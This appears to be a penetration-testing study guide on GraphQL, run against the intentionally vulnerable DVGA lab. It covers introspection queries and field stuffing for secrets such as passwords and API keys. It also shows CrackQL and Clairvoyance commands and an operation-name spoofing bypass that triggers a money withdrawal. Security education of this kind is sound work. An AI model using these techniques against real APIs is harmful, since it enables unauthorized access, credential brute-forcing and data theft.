

# A Primer on GraphQL
## How does GraphQL communication work?

When a query is received from the client, the server processes it using a query parser. The query parser reads and validates the query's format and checks it against the application's GraphQL schema. This validation ensures that only valid queries are accepted. The parser turns the query string into an abstract syntax tree (AST), which represents the query's structure. The AST includes fields, arguments, and other information and can be easily traversed by different language parsers.

Once the query is deemed valid, resolver functions come into play. Resolvers are responsible for populating the response with data for each field specified in the client query. They implement code logic to fetch the required data, which can involve querying relational databases, cache databases, or other servers on the network. Each field in the query has a corresponding resolver function responsible for returning the field's response.

It's important to note that resolvers are not limited to reading from databases. They can also read data from the local filesystem or make HTTP requests to external systems using REST APIs. This flexibility allows resolvers to gather data from various sources and generate the appropriate response for the client's query.



## What Problems Does GraphQL Solve?

GraphQL offers additional features, including schema stitching and schema federation. 

**Schema stitching** enables the creation of a unified GraphQL schema by combining multiple underlying GraphQL services. It allows multiple schemas to be packaged together, creating a single integration point for clients. This consolidation of schemas simplifies the integration process for clients and provides a unified view of the underlying services.

On the other hand, **Schema federation** provides a mechanism for consolidating multiple APIs into a single gateway without the need for manual schema stitching. Instead, developers specify where the GraphQL API gateway should locate additional schemas, and the gateway handles the stitching automatically. Federation offers a lower-maintenance approach to consolidating multiple APIs.

However, it's important to note that complex API applications that utilize schema federation or stitching can introduce security vulnerabilities. These vulnerabilities may grant unauthorized access to sensitive data. The complexity of such applications increases the likelihood of internal complexities leading to potential security issues. Therefore, proper security measures should be implemented to mitigate these risks.

## GraphQL APIs vs. REST APIs
 
GraphQL has some unique characteristics when it comes to HTTP methods and status codes:

- Despite GraphQL applications primarily using the POST method, it's worth testing the support for the GET method. This is important because accepting GET requests in GraphQL can expose potential vulnerabilities like cross-site request forgery (CSRF), which can be exploited by attackers.
- In REST APIs, HTTP status codes like 200 OK, 404 Not Found, and 401 Unauthorized are used to indicate the outcome of a request to the client. For instance, a REST API may return a 401 Unauthorized status code when a user provides incorrect login credentials. These status codes play a crucial role in communicating the request result to the client.
- In contrast, GraphQL APIs typically return a 200 OK status code for most responses, even if there are authorization errors or the requested resource doesn't exist. GraphQL indicates errors to the client by including an errors field as part of the response payload.
- However, there are cases where GraphQL may return a status code other than 200 OK. This can occur if the server encounters critical errors, such as a database failure or other backend issues. In such situations, GraphQL may return a 500 Server Error status code.
- The fact that GraphQL behaves differently from REST in terms of HTTP status codes can be advantageous for hackers. As developers often adopt newer technologies like GraphQL without customization or thorough research, it provides an opportunity for attackers. The deviation from standard HTTP status code principles in GraphQL responses can help evade security controls such as web application firewalls (WAFs) and escape detection when security operators look for anomalies in HTTP error codes, especially if they are not aware of GraphQL's behavior.


# Understanding The Language
## Response

- GraphQL API in most cases will return a **`data`** JSON field when there is a result to return to a client’s query. 
- It will also return an **`errors`** JSON field whenever errors occur during the execution of a client query. 
- To put it simply, in every scenario we have two conditions that a response must meet before we can say that it came from a GraphQL API:
	- A valid query response should always have the data field populated with query response information. 
	- An invalid query response should always have the errors field populated with information about what went wrong.

## Query

## Mutation

## Subscriptions

- The subscription operation works bidirectionally : it allows clients to retrieve real - time data from a server, and allows servers to send updates to clients.
- Subscriptions are carried over a transport protocol, most commonly **WebSocket**, a real - time communication protocol that allows clients and servers to exchange messages at any given time over a long - lived connection.
- However, because the GraphQL specification doesn’t define which transport protocol to use for subscriptions, you might see consumers use other ones.
- WebSocket connections are prone to cross - site WebSocket hijacking ( CSWSH ) vulnerabilities, which happen when the server does not validate the origin of a client in the handshake process. 
- WebSocket connections can also be vulnerable to man - in - the - middle ( MITM ) attacks when the transport of messages isn’t carried over an encrypted channel such as Transport Layer Security ( TLS ). The existence of such vulnerabilities could have a security impact on actions carried over GraphQL subscriptions.

## Operation Names

- Clients define these operation names, which means they can be completely random, making them a great way to potentially fool an analyst reviewing logs of GraphQL applications. 
- For example, imagine that a client sends a document using the operation name getPastes, but instead of returning a list of paste objects, they in fact delete all pastes.
- Because operation names are client - driven inputs, they could also potentially be used as attack vectors for injection. 
- **Some implementations of GraphQL allow special characters in operation names. The applications might store these names in their audit logs, third - party applications, or other systems. These could cause mayhem if not properly sanitized.**

## Fields

- When a client misspells a field, the error message returned by a server that implements field suggestions will reference the field it believes the client was trying to call. 
- For example, if we sent a query for a paste with the field name of  **`titl`** in DVGA ( notice the typo ), the server will respond with suggested alternatives :  **`" Cannot query field \ " titl \ " on type \ " PasteObject \ ". Did you mean \ " title \ " ? "`**

## Aliases

- Aliases allow clients to change a field’s response key to something other than the original field’s name. 
- For example, here we use myalias as an alias for the title field name : **`query { pastes { myalias:title } }`**
- **While aliases can typically contain alphanumeric characters, most GraphQL servers will return a syntax error when aliases contain special characters.**

## Fragments

- Fragments allow clients to reuse the same set of fields in a GraphQL query for readability and to avoid field repetition. 
- Instead of repeating the fields, you can define a fragment once and use it whenever you need that particular set of fields.
- Fragments are defined using the fragment keyword, followed by any name you desire, and declared using the on keyword on an object type name :
```js
	query {
		pastes {
			... CommonFields 
		} 
	} 
	
	fragment CommonFields on PasteObject { 
		title 
		content 
	}
```
- From a penetration testing perspective, fragments can be constructed such that they reference one another, allowing for a circular fragment condition that could lead to DoS conditions.

## Variables

- You can supply variables to operations as argument values by declaring them within the GraphQL document. Variables are useful because they avoid costly string building during runtime.
- Using the dollar sign ( $ ) symbol, we provide the variable name status and its type, Boolean. The ! after the variable type means that the variable is required for the operation.

## Directives

- Directives allow you to decorate, or change the behavior of, a field within a document. 
- The behavior change could affect the way the particular field gets validated, processed, or executed by the application. 
- Directives can be seen as arguments ’ big brother, as they allow for higher - level control, such as conditionally including or skipping fields based on certain logic. 
- They come in two flavors : 
	- query level 
	- schema level. 
- Both types are declared with **`@`** and can leverage arguments ( much like fields ).
- Implementations typically provide several out - of - the - box directives, and GraphQL API developers can also create their own custom directives as they please. 
- Unlike operation names or aliases, clients can use only the directives defined by the server.
- Finally, the more recently added @ specifiedBy schema - level directive is used to provide a human - readable specification URL for a custom scalar type.
- Custom directives empower GraphQL implementations to develop new features or augment functionality not currently supported, or widely used, by the ecosystem. 
- One example of a widely adopted custom directive is **`@computed`**. This powerful schema - level directive saves implementers from having to create resolver functions for fields that can be computed from the values of other fields in the schema. 
- In the example below **`@computed`** directive can merge the firstName and lastName fields into the fullName field. 
```js
	type User { 
		firstName : String 
		lastName : String 
		fullName : String @computed ( value : " $ firstName $ lastName " ) 
	}
```

## Data Types

- GraphQL’s types define the custom objects and data structures that make up a GraphQL schema. 
- There are six kinds of types : **object, scalar, enum, union, interface, and input**.

### Objects

- Custom object types are groups of one or more fields that define domain - or application - specific objects. 
- Consider the example schema below: 
```js
	type PasteObject { 
		id : ID ! 
		title : String 
		content : String 
		public : Boolean 
		userAgent : String 
		ipAddr : String 
		ownerId : Int 
		burn : Boolean
		owner : OwnerObject 
	}
```
- If you look at the id field, you’ll notice that it contains the **exclamation mark ( ! )** character. This means that every Paste object requires an ID, whereas every other field can be null. These required fields are known as non - null wrapping types.

### Scalars

- Scalars include several core built - in value types, such as ID, Int, Float, String, and Boolean. Unlike object types, they don’t have their own fields.
- Custom scalars may also use the **`@specifiedBy`** built - in directive to describe their specification URL for clients. 
- For example, a custom scalar type UUID may set its specification URL to the relevant Internet Engineering Task Force ( IETF ) specification : 
```js
	scalar UUID @ specifiedBy (url : "https://tools.ietf.org/html/rfc4122")
```

### Enums

- Enums, or enumeration types, are fields used to return a single string value from a list of possible values. 
- For example, an application may want to allow a client to choose how to sort a list of usernames in the response.
```js
	enum UserSortEnum {
	  ID
	  EMAIL
	  USERNAME
	  DATE_JOINED
	}

	input UserOrderType {
	  sort: UserSortEnum!
	}
	
	type UserObject {
	  id: Int!
	  username: String!
	}
	
	type Query {
	  users(limit: Int, order: UserOrderType): UserObject!
	}
```

### Union

- A union is a type that returns one of many object types. A client can leverage unions to send a single request to a GraphQL server and get a list of objects.

```js
	query { 
		search ( keyword : " p " ) {
			... on UserObject { 
				username 
			}
			
			... on PasteObject { 
				title 
				content 
			} 
		} 
	}
```

- To accept and resolve a request like this, a schema can use a union type.

```js
	union SearchResults = UserObject | PasteObject 
	
	type UserObject { 
		id : ID! 
		username : String! 
	} 
	
	type PasteObject { 
	id : ID! 
	title : String 
	content : String
	}
	
	type Query { 
		search ( keyword : String ) : [ SearchResults ! ] 
	}
```

### Interfaces

- Another way to return multiple types within the same field is through interfaces. 
- Interfaces define a list of fields that must be included across all object types that implement them. 
- In the union request example covered in the previous section, you saw how we could retrieve the username field of any User object, as well as the title and content fields of any Paste object, as long as these matched the search pattern. Interfaces do not work like this ; they require the same fields to be present in both objects in order for the objects to be joined in a response to the client.
- To implement our search functionality using interfaces instead of unions

```js
	interface SearchItem { 
		keywords : [String!] 
	} 
	
	type UserObject implements SearchItem { 
		id : ID! 
		username : String! 
		keywords : [String!] 
	} 
	
	type PasteObject implements SearchItem { 
		id : ID! 
		title : String 
		content : String 
		keywords : [String!] 
	} 
	
	type Query { 
		search (keyword : String) : [SearchItem!]! 
	}
```

- Interfaces could pose a problem in applications that poorly implement authorization. One way to implement authorization in GraphQL is by using custom schema - level directives. Because an interface defines fields to be used by other objects, any sensitive field that isn’t properly decorated could be exposed unintentionally. Large SDL files can have thousands of lines, and there is always a chance a developer might forget to add the relevant authorization directives.

### Inputs

- Arguments are able to accept values of different types, such as scalars, but when we need to pass large and complex inputs to the server, we can leverage an input type to simplify our requests. Input types are essentially the same as object types, but they can be used only as inputs for arguments. They help organize client requests and make it easier for clients to reuse inputs in multiple arguments. Mature GraphQL deployments use input types to better structure their APIs and make their schema documentation easier to read.

## Introspection

- Introspection lets clients query a GraphQL server for information about its underlying schema, which includes data like queries, mutations, subscriptions, directives, types, fields, and more. 
- As hackers, this feature can be a gold mine in supporting our reconnaissance, profiling, data collection, and attack - vector analysis efforts. Let’s dive into how we can use it.
- The GraphQL introspection system has seven introspection types that we can use to query the schema. 

| Introspection type | Usage                                                                                 |
|--------------------|---------------------------------------------------------------------------------------|
| **`__schema`**         | Provides all information about the schema of a GraphQL service                        |
| **`__type`**           | Provides all information about a type                                                  |
| **`__typekind`**       | Provides the different kinds of types (scalars, objects, interface, union, enum, etc.) |
| **`__field`**          | Provides all information for each field of an object or interface type                 |
| **`__inputvalue`**     | Provides field and directive argument information                                      |
| **`__enumvalue`**      | Provides one of the possible values of an enum                                         |
| **`__directive`**      | Provides all information on both custom and built-in directives                        |

- **`__schema`**  introspection type against DVGA. 
```js
	query { 
		__schema { 
			types { 
				name 
			} 
		} 
	}
```

- `__typename` When used, it returns the name of the object type being queries
```js
	query {
		queryName {
			__typename
		}
	}
```

- We can use **`__type`** to further investigate information about types we find interesting. 
```js
	query { 
		__type (name: "Object") { 
			name 
			kind 
			fields { 
				name 
				type { 
					name 
					kind 
				} 
			} 
		} 
	}
```

## Validation and Execution

- The GraphQL Threat Matrix ( https://github.com/nicholasaleks/graphql-threat-matrix) is a security framework for GraphQL. 
- It is used by bug bounty hunters, security researchers, and hackers to assist with uncovering vulnerabilities across multiple GraphQL implementations.

# Exploitation Methodology
## Tools

### Clairvoyance

Clairvoyance is a Python-based reconnaissance tool for GraphQL APIs, developed by Nikita Stupin (@_nikitastupin) and Ilya Tsaturov (@itsaturov). It allows you to discover schema information when introspection is disabled. The tool works by abusing a GraphQL feature called field suggestions. Essentially, it reconstructs the underlying schema by sending queries crafted from a dictionary of common English words and observing the server’s responses.

### InQL

InQL is a tool developed by doyensec for Introspection of GraphQL. It can export any information it finds about the GraphQL schema to a variety of formats, making the application’s schema easier to read and understand. InQL can also perform other tasks, such as detecting potential DoS conditions.

### Graphw00f

Graphw00f is a Python-based GraphQL security tool designed to identify a GraphQL API’s specific implementation. The tool was primarily built because GraphQL doesn’t generally advertise the type of engine it’s using under the hood. Graphw00f manages to fingerprint the implementation by sending a mix of valid and malformed queries to the server and observing the subtle differences in the returned error messages. It can currently fingerprint over 24 implementations, including the majority of the popular GraphQL servers in use today.

### BatchQL

BatchQL is a GraphQL security auditing script written in Python and developed by the security firm Assetnote. The tool is named after a GraphQL feature called batching that allows clients to send multiple queries in a single HTTP request. BatchQL attempts to identify flaws in GraphQL implementations related to the following vulnerability classes: DoS, CSRF, and information disclosure.

### Command Injection Exploiter (Commix)

Commix is an open-source project written in Python and developed by Anastasios Stasinopoulos. It attempts to find and exploit command injection vulnerabilities in an automated fashion by fuzzing various parts of an HTTP request, such as query parameters or the request body, using specialized payloads. The tool is also capable of exploiting these vulnerabilities and can spawn a custom interactive shell, which penetration testers can use to gain a foothold on remote servers.

### graphql-path-enum

Written in Rust and developed by dee_see (@dee_see), graphql-path-enum is a security testing tool that finds various ways to construct queries that reach a specific piece of data. By doing so, it arms hackers with information that could assist them in identifying authorization flaws.

### EyeWitness

EyeWitness is a web-scanning tool developed by Chris Truncer and Rohan Vazarkar that is capable of capturing screenshots of target web applications. When scanning many websites in a penetration test, you’ll often find it useful to visually identify what’s running on them. EyeWitness achieves this using a command line–based web browser (also called a headless browser) under the hood, allowing it to load dynamic web content, such as content loaded dynamically using JavaScript.

### GraphQL cop

GraphQL cop is a dedicated GraphQL security auditing utility based on Python. It audits GraphQL servers for information disclosure and DoS-based vulnerabilities.

### CrackQL

CrackQL is a specialized brute-forcing tool for GraphQL that uses GraphQL language features to better optimize brute-force attacks against API actions that may require authentication.

## Reconnaissance

### Detecting GraphQL

- Apart from the common graphql endpoints on a web application, we can also find GraphQL implementation through IDEs, such as GraphQL Playground or GraphiQL Explorer
- When either of these interfaces is enabled, it often uses an additional, dedicated endpoint. 
- This means GraphQL can potentially exist under the following endpoints as well: 
	- **`/graphiql`** 
	- **`/playground`** 
- If these endpoints happen to also be versioned, they may have a version number prepended to their path, such as:
	- **`/v1/graphiql`**,
	- **`/v2/graphiql`**,
	- **`/v1/playground`**,
	- **`/v2/playground`**, and so on.
- For a more comprehensive list of common GraphQL endpoints: https://github.com/dolevf/Black-Hat-GraphQL/blob/master/ch04/common-graphql-endpoints.txt. 

#### GraphQL detection using Nmap

- Using nmap *http-grep* NSE script we can automate our scan and identify any GraphQL servers that may exist on the network
- The string `Must provide query string` is often used in GraphQL implementations, such as Python and Node.js. 
```bash
$ nmap -p <target-port> -sV --script=http-grep --script-args='match="Must provide query string", http-grep.url="/graphql"' <target-server-ip>

PORT      STATE  SERVICE   VERSION 
5013/tcp  open   http      Werkzeug httpd 
| http-grep: 
|   (1) http://localhost:5013/graphql: 
|       (1) User Pattern 1: 
|       + Must provide query string
```
 
 - Under the hood, Nmap will make an HTTP GET request to target-server and use the argument string value we defined as the pattern for its search within the text it extracts from the web server’s response. 
 - In its output, Nmap shows that a pattern was found on the web page and indicates the string for which it found a match. 

#### GraphQL detection using Graphw00f

- To see Graphw00f in action, open your terminal and execute the following command: 
	```bash
	$ cd ~/graphw00f 
	$ python3 main.py -d -t http://localhost:5013
	
	                       graphw00f           
	          The fingerprinting tool for GraphQL 
	           
	[*] Checking http://localhost:5013/  
	[*] Checking http://localhost:5013/graphql  
	[!] Found GraphQL at http://localhost:5013/graphql
	```
	- The **`-t`** flag in this case will be the remote target URL http://localhost:5013, and 
	- The **`-d`** flag will turn on detection mode, which indicates to Graphw00f that it should run a GraphQL detection check against the target URL. 
	- If you have questions about Graphw00f’s arguments, use the **`-h`** flag to read more about its options. 

#### Detecting GraphiQL Explorer and GraphQL Playground using EyeWitness

- An interesting and often overlooked technique to scan for graphical web interfaces is through the use of tools such as headless browsers. 
- Headless browsers are fully functional command line web browsers that the user can program for a variety of purposes, such as retrieving page contents, submitting forms, or simulating real user behavior on a web page. 
- For example, the headless browsers Selenium and PhantomJS can be handy when you need to render web pages containing JavaScript code. 
- One security tool in particular has incorporated a headless browser to solve this gap: EyeWitness. 
- This web scanner is capable of taking screenshots of web pages by leveraging the Selenium headless browser driver engine behind the scenes. EyeWitness then generates a nice report, along with a screen capture of the page.
- EyeWitness offers many options for customizing its scanner behavior, and you can see them by running the tool with the **`-h`** option. 
- To detect GraphQL IDE panels, we’ll use the **`--web`** option, which will attempt a screen capture of the scanned site with the headless browser engine, together with the **`--single`** option, which is suitable when you need to scan only a single target URL. We will then use the **`-d`** flag to indicate to EyeWitness the folder in which it should dump the report (in this case, the dvga-report folder). 
	```bash
	$ eyewitness --web --single http://localhost:5013/graphiql -d dvga-report 
	
	Attempting to screenshot http://localhost:5013/graphiql  
	[*] Done! Report written in the dvga-report folder!  
	Would you like to open the report now? [Y/n]	
	```

> **🗒️ NOTE**
> Finding instances of GraphiQL Explorer or GraphQL Playground in a penetration test doesn’t guarantee that the GraphQL API itself will allow you to make unauthorized queries. Because both GraphiQL Explorer and GraphQL Playground are simply frontend interfaces to a GraphQL API, they are effectively HTTP clients that interact with a GraphQL server.

### Querying GraphQL endpoint using Introspection

- As hackers, one of the first things we want to test when we run into a GraphQL application is whether its introspection mechanism is enabled. 
- Many GraphQL implementations enable introspection by default.
- Also, if you’re attacking a target with a mature security program, these queries may be monitored for any attempts from untrusted clients, such as those in new geographical locations or with new IP addresses.
- We can craft a more specialized introspection query that would give us more data about the target application’s schema. A useful introspection query is one that will give us information on the entry points into the application, such as queries, mutations, subscriptions, and the type of data that can be injected into them.
	```js
		query IntrospectionQuery {    
			__schema {   
				queryType { 
					name 
				}     
				mutationType { 
					name 
				}     
				subscriptionType { 
					name 
				}   
				types {
					kind       
					name     
					fields {        
						name         
						args {           
							name         
						}       
					}     
				}   
			} 
		}
	
	```
	- The introspection query shown above gives us a bit more insight into the API. 
	- We start with getting the names of all queries (queryType), mutations (mutationType), and subscriptions (subscriptionType) available in the GraphQL API. 
	- These names are typically self-explanatory, to make it easier for clients to use the API, so knowing these query names gives us an idea of the information we could receive. 
	- Then we try to get all the types in the schema, along with their kind (such as an object) and name (such as PasteObject). 
	- We also try to get the fields along with the name of each one, which will allow us to know the types of fields we can fetch when we use different GraphQL objects. 
	- Next, we get the arguments (args) of these fields along with their name.Arguments could be any information the API is expecting the client to supply when it queries the API (typically, dynamic data). For example, when a client creates a new paste, it will supply an arbitrary title argument and a content argument containing the body of the paste, which might be a code snippet or other text.

#### Introspection using nmap

- Using the **`--script`** flag, you can then tell Nmap to run the graphql-introspection NSE script against any host by specifying the open port using **`-p`** flag. 
- The -sV flag performs a service and version scan. The command below shows hot this can be accomplished:
	```bash
	$ nmap --script=graphql-introspection -iL hosts.txt -sV -p 5013
	
	PORT     STATE   SERVICE   VERSION 
	5013/tcp open    http      Ajenti http control panel 
	| graphql-introspection:  
	|   VULNERABLE: 
	|   GraphQL Server allows Introspection queries at endpoint: 
	|   Endpoint: /graphql is vulnerable to introspection queries! 
	|     State: VULNERABLE 
	|       Checks if GraphQL allows Introspection Queries. 
	| 
	|     References: 
	|_      https://graphql.org/learn/introspection/	
	```

> **🗒️ NOTE**
> For a comprehensive introspection query that, when executed, will extract a lot of useful information about the target’s schema can be found here: https://github.com/dolevf/Black-Hat-GraphQL/blob/master/queries/introspection_query.txt. 
> This query will return information such as queries, mutations, and subscriptions names, with the arguments they accept; names of objects and fields, along with their types; names and descriptions of GraphQL directives; and object relationships.

#### Visualizing Introspection 

- GraphQL Voyager, which can be found at https://github.com/graphql-kit/graphql-voyager, is an open source tool that processes either introspection query responses or GraphQL SDL files and visualizes them, making it easy to identify the various queries, mutations, and subscriptions and the relationships between them.

## Information Disclosure

- In GraphQL, one of the most efficient ways to extract sensitive information from an application is to explore its schema, which provides context about the application’s data structure and business logic. 
- The best way to do so is to use the GraphQL introspection feature. Most GraphQL implementations are shipped with introspection enabled by default.

### Overcoming disabled introspection

#### Exploiting Non-Production Environments

- In some applications, the development and staging environments won’t have the same level of security as the production environment. 
- Even if introspection is disabled in the production environment, you might find it enabled in other environments, where it can assist engineers with building, updating, testing, and maintaining their APIs.
- Typically, non-production environments are hosted on subdomains such as staging or dev. 
- It will be worth checking if those environments are accessible to us, and if any GraphQL services may have introspection enabled. 
- You can find a list of potential GraphQL staging and development locations at **https://github.com/dolevf/Black-Hat-GraphQL/blob/master/resources/non-production-graphql-urls.txt.**

#### Exploiting the \_\_type Meta-field

- When GraphQL implementations want to block introspection queries from executing, they often filter out any requests that contain the keyword **`__schema`**. 
- However, while most introspection queries leverage the **`__schema`** meta-field, clients could also use several other introspection meta-fields. 
- For instance, **`__type`** represents all types in the system and could be used to extract type details from a GraphQL schema.
	```js
		{
			__type(name: "Query") {
				name
			}
		}
	```

### Field Suggestions

- A popular feature adopted by many GraphQL implementations, field suggestions activate when clients send a request that contains a typo. 
- Unlike most REST APIs, which return status codes of 400 Bad Request if an HTTP query is malformed, GraphQL responds in a much more friendly manner, by suggesting possible corrections. 
- This feature is not part of the GraphQL specification but is commonly seen in the majority of the GraphQL server implementations available today.

#### Edit-Distance Algorithm

- To determine whether a typo is similar to a valid object, field, or argument in the schema, GraphQL implementations rely on the simple edit-distance algorithm. 
- Understanding edit distance can help us optimize a brute-forcing script for discovering names from field suggestions.
- This matching algorithm compares any two strings and returns their similarity based on the number of character operations required to match them. Adding, replacing, or removing a character from one of the strings counts as an operation.
- GraphQL will return all fields that could possibly match the typo provided.
- Another useful fact is that there is no limit to the number of typos a client can send in a single request. For each typo, the GraphQL server will attempt to suggest an autocorrection.
- GraphQL servers analyze each typo and return a list of all possible field suggestions within the edit-distance threshold.

> **ℹ️ INFO**
> On November 5, 2019, a GitHub issue was raised regarding the use of field suggestions in the GraphQL reference implementation GraphQL.js. The issue stated that attackers could probe a server for schema details by sending invalid GraphQL documents. It referenced a file, didYouMean.ts, used by several validation rules. 
> Following the thread of comments supporting Byron’s opinion on the matter, a pull request was made on January 28, 2022, to disable field suggestions whenever introspection is disabled. If merged, this pull request would make it difficult to abuse field suggestions when introspection is disabled.

#### Using Field Stuffing

- Field stuffing is a GraphQL information disclosure technique in which a list of fields is inserted into a GraphQL query. 
- We can use field stuffing to potentially discover sensitive information like passwords, keys, and PII by guessing and passing these potential field names into a query request that we know works.
- For example, say we've captured the following query by intercepting traffic.
	```js
		query {
			user {
				name
			}
		}
	```
- As attackers, we obviously won't know what the database schema is up fornt, but we can make educated guess about what these additional database columns might be and begin stuffing their possible names into a query. 
- An example field stuffed query for the above captured query would look like:
	```js
		query {
			user {
				name
				username
				address
				birthday
				age
				password
				sin
				ssn
				apikey
				token
				...
			}
		}
	```

> **🗒️ NOTE**
> Pay attention to the formatting of the field names you attempt. Fields and arguments in SDL files are often styled in snake_case, in which each space is replaced with an underscore **`_`** symbol, and the first letter of each word is lowercase. 
> For example, an API key field is likely to be defined as api_key. However, when querying a GraphQL API as a client, these fields and arguments may be shown in camelCase, in which a name formed by multiple words is joined together as a single word without punctuation, and the first letter of this word is lowercase (also called lowerCamelCase). 
> This is because some GraphQL implementations automatically convert the style of fields and arguments. However, naming conventions can be changed, as they are completely up to the application maintainer.

#### Type stuffing in \_\_type Meta-field

- Earlier, we mentioned that certain applications might fail to reject queries that use the **`__type`** meta-field when attempting to disable introspection. 
- If so, we can use a technique similar to field stuffing to gain insight into the application’s schema: namely, stuffing potential type names into the **`__type`** field’s name argument.
- Just as we used field stuffing earlier to identify field names, we can try different type names until we land on one that exists. In terms of naming conventions, type names in GraphQL are usually written in UpperCamelCase

#### Automating Field Suggestion and Stuffing using Clairvoyance

- Clairvoyance can take advantage of the field suggestion and stuffing features to uncover valid field information from a target.
- Clairvoyance takes a wordlist as input and stuffs its contents into multiple GraphQL queries to identify any valid operations, fields, arguments, input types, and other key schema elements.
- One suitable wordlist is the high-frequency-vocabulary wordlist created by Derek Chuank.
- Enter the directory in which you installed Clairvoyance, and then execute it against DVGA with a wordlist using the **`-w`** (words) argument. 
	- **`-o`** argument tells Clairvoyance where it should output the schema it generates during runtime:
	```bash
	$ cd ~/clairvoyance 
	$ python3 -m clairvoyance http://localhost:5013/graphql -w ~/high-frequency-vocabulary/30k.txt -o clairvoyance-dvga-schema.json
	 ```

### Abusing Error Messages

- As we discovered through our exploration of field suggestions, GraphQL error messaging can be verbose. 
- By default, GraphQL tends to overshare with clients to improve the overall developer experience. 
- By learning about GraphQL error messages, we can take advantage of the information that they reveal to conduct our attacks.
- According to the spec, GraphQL error responses do not require HTTP status codes and typically contain only three unique fields: Message, Location, and Path.
- The **extensions** field is used in several GraphQL services to extend the message, location, and path fields we just mentioned. 
- **Extensions** are reserved for implementations and plug-ins and commonly include information like error codes, timestamps, stack traces, and rate-limit information.

#### Enabling Debugging

- Developers use debugging information when troubleshooting issues with GraphQL applications. 
- When debug mode is enabled, a GraphQL server will respond to client requests with verbose messages related to a backend server error that wouldn’t normally be shown. 
- For instance, instead of returning standard errors, a client may receive a stack trace with detailed error messages. 
- These debug messages may include valuable information that we can use in further attacks against our target.
- Another common parameter used to enable debug mode is the debug query parameter with a value of 1 (for true), for example: **http://example.com/graphql?debug=1**
- Many developers may also write debug messages to a browser’s console by using the console.log function in JavaScript. In the browser’s developer tools, use the Console tab to inspect console messages for possible debug logs that may be attributed to GraphQL functionality.

> **🗒️ NOTE**
> Not all GraphQL implementations support debug mode. The GraphQL Threat Matrix (https://github.com/nicholasaleks/graphql-threat-matrix) indicates which implementations support it.

#### Inferring Information from Stack Traces

- As mentioned earlier, various GraphQL endpoints on the same server could have different configuration settings. 
- For example, DVGA’s **`/graphql`** endpoint does not throw stack traces to client requests that raise an error. 
- However, the **`/graphiql`** endpoint, which provides access to graphical query tools, is configured to return stack traces when an error is raised.

#### Leaking Data by using GET-Based Queries

- Some GraphQL implementations allow clients to execute queries using the GET method, while others allow only POST requests. 
- Mutation operations in particular should be sent using only POST methods. 
- However, some implementations, like Scala-based Sangria, may allow GET requests for mutation operations as well.
- Because GET requests transmit data as query parameters in the URL, they risk exposing sensitive information.

## Authentication and Authorization Bypass

### In-Band vs Out-of-Band Architecture

#### In-Band Authentication and Authorization

- In an in-band authentication and authorization architecture, developers implement client login, signup, role-based access controls, and other permission controls directly in the GraphQL API. 
- The same GraphQL instance that provides clients with their application data also controls the logic that authenticates clients and grants them permissions to view data. 
- In-band GraphQL architectures typically host query or mutation operations that enable clients to send credentials to the API. 
- The API is responsible for verifying these credentials and then issuing tokens to the clients.

#### Out-of-Band Authentication and Authorization

- Out-of-band authentication and authorization architectures implement the access control and permissions logic on either a separate internal web application service or an external system. 
- In such an architecture, the GraphQL API isn’t responsible for managing client login, signup, or even access control. 
- Instead, it offloads authorization decisions to another component, such as an API gateway, a container sidecar, or another server on the network. 
- This allows developers to decouple the authorization logic from the GraphQL application.

> **ℹ️ INFO**
> Between the two architectural styles, in-band architectures tend to be more vulnerable to authentication and authorization attacks. Their added complexity increases an API’s attack surface drastically. 
> The current industry best practice is to delegate authorization logic to the business logic layer of an application, which serves as the single source of truth for all business domain rules. It should sit between the GraphQL layer and the persistence layer (also known as the database or datastore layer).
> By contrast, authentication for the entire GraphQL API should occur in an external or third-party gateway layer, which passes authenticated user contexts along to the API.

### Authentication

#### HTTP Basic Authentication

- One of the most rudimentary GraphQL authentication methods is HTTP basic authentication. 
- Defined in RFC 7617, this scheme involves the inclusion of a Base64-encoded username and password in the header of a client request. 
- The header looks as follows: **`Authorization: Basic <base64_encoded_credential>`** 
- The Base64-encoded username and password are joined by a colon into a single credential.
- Because the credentials are encoded using Base64 and sent on every request (by contrast, other systems might generate a temporary session token upon login), the attack window from which to steal such credentials is larger.

#### Brute-Forcing passwords using CrackQL

- Enter the CrackQL directory and then execute the brute-force attack against DVGA.
	```bash
	$ cd ~/CrackQL 
	$ python3 CrackQL.py -t http://localhost:5013/graphql -q sample-queries/login.graphql -i sample-inputs/usernames_and_passwords.csv --verbose
	```
	- **`-t`** (target) argument specifies the destination GraphQL endpoint URL, 
	- **`-q`** (query) argument takes a sample query (login.graphql), and 
	- **`-i`** (input) argument defines the list of usernames and passwords to use in the attack. 
	- **`--verbose`** argument allows us to view additional information such as the final payload before it is sent to DVGA. 
- CrackQL comes preinstalled with a sample username and password CSV dictionary, as well as the login.graphql query, as shown in the above example. 
- As you can see, it contains a single login mutation with two embedded variables, username and password. 
- CrackQL uses Jinja-templating syntax, so variables are passed using double curly brackets **`{{}}`**.
- In cases where GraphQL query cost controls prevent the execution of large query batches, CrackQL has an optional **`-b`** (batch) argument, which you can use to define a more limited set of aliased operations, allowing your attack to fly under the radar.
- When performing attacks against authenticated queries, you’ll likely need to pass it authentication headers and possibly cookies. 
- CrackQL allows you to do so using the config.py file, which accepts COOKIES and HEADERS variables. 
	```bash
	$ cat config.py
	
	HEADERS = {"Authorization": "Bearer mytoken"} 
	COOKIES = {"session": "session-secret"}
	```
	
#### Using Allow-Listed Operation Names

- Certain in-band GraphQL implementations may make some queries and mutations publicly available for unauthenticated clients, such as those for login or account registration. 
- Some of these deployments use operation name-based allow lists, a weak enforcement control, to reject all unauthenticated requests unless their operation names are in an allow list. 
- However, operation names can be defined by the client, so an attacker can bypass these authentication mechanisms by simply spoofing an operation’s name. 
- The following is an example of an unauthenticated mutation. As you can see, it would allow a user to register a new user account: 
	```js
		mutation RegisterAccount {     
			register(username: "operator", password: "password"){         
				user_id     
			} 
		}
	```
- An implementation may choose to allow-list this register operation by using its operation name RegisterAccount. 
- As attackers, we can take advantage of this by sending a request like the one shown below:  
	```js
		mutation RegisterAccount {     
			withdrawal(amount: 100.00, from: "ACT001", dest: "ACT002"){         
				confirmationCode     
			} 
		}
	```
	- We used the allowed operation name to withdraw money with a withdrawal mutation.

### Authorization

#### Detecting Authorization Layer

